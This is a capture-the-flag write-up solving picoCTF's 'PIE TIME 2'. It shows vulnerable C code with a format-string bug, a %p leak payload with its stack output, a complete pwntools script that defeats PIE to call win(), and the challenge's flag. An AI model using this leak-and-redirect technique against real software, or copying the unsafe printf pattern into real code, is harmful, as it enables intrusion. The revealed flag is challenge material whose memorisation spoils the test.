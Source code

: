 # PIE TIME 2

Author: Darkraicg492

Can you try to get the flag? I'm not revealing anything anymore!! Connect to the program with netcat:

$ nc rescued-float.picoctf.net 51740

The program's source code can be downloaded [here](vuln.c). The binary can be downloaded [here](vuln).

## Solution

We need to hit this function to print the flag:

```c
int win() {
  FILE *fptr;
  char c;

  printf("You won!\n");
  // Open file
  fptr = fopen("flag.txt", "r");
  if (fptr == NULL)
  {
      printf("Cannot open file.\n");
      exit(0);
  }

  // Read contents from file
  c = fgetc(fptr);
  while (c != EOF)
  {
      printf ("%c", c);
      c = fgetc(fptr);
  }

  printf("\n");
  fclose(fptr);
}
```

We have this function where it takes user input and prints it directly with `printf`, this is a formatting string vulnerability:

```c
void call_functions() {
  char buffer[64];
  printf("Enter your name:");
  fgets(buffer, 64, stdin);
  printf(buffer);

  ...
}
```

I objdump the binary to look where the `main` function is loacted in the binary:
```c
$ objdump -d ./vuln | grep "<main>:"
0000000000001400 <main>:
```

I use this payload to print the most stack pointers that fit in the `name` buffer:

```python
$ python3 -c "print('%p' + ' %p' * int(61/3))"
```

We get this output:

```c
Enter your name:%p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p %p
0x561b1021e311 0x7f6bfb60b7a0 0x7f6bfb60b7a0 0x561b1021e34f (nil) 0x34000000340 0x7f6bfb60a5c0 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0x2520702520702520 0x2070252070252070 0x7025207025207025 0xa702520702520 (nil) 0x231ec9ad77626100 0x7ffc0fd58c80 0x561af70a7441 0x7ffc0fd58d20 0x7f6bfb427675
 enter the address to jump to, ex => 0x12345: 
```

The 19th address is interesting, as it ends in 441, this is our `main` function:

```c
0x55e07028c441
```

We take this leaked main address and find the difference between the remote address and our local address plus the offset:

```python
base = main_addr_leak - (elf.symbols["main"] + 0x41) # find the base address by finding the difference between our leaked main and our main plus the offset
```

Then we just jump to that address and win:

```python
from pwn import *

context.binary = elf = ELF("./vuln", checksec=False)
#io = elf.process()
io = remote("rescued-float.picoctf.net", 49795)
#context.log_level = "debug"

# step 1: leak main address
io.sendlineafter(b":", b"%19$p")
io.recvuntil(b"0x")
main_addr_leak = int(io.recvline().strip(), 16)
log.info(f"Leaked main address + offset: {hex(main_addr_leak)}")

base = main_addr_leak - (elf.symbols["main"] + 0x41) # find the base address by finding the difference between our leaked main and our main plus the offset
calculated_win_addr = base + elf.symbols["win"]
log.info(f"Calculated win address: {hex(calculated_win_addr)}")

io.sendlineafter(b": ", hex(calculated_win_addr).encode())
io.recvuntil(b"You won!\n")
flag = io.recvline().strip().decode()
log.success(flag)

io.close()
```

**Flag:** `picoCTF{p13_5h0u1dn'7_134k_1ef23143}`
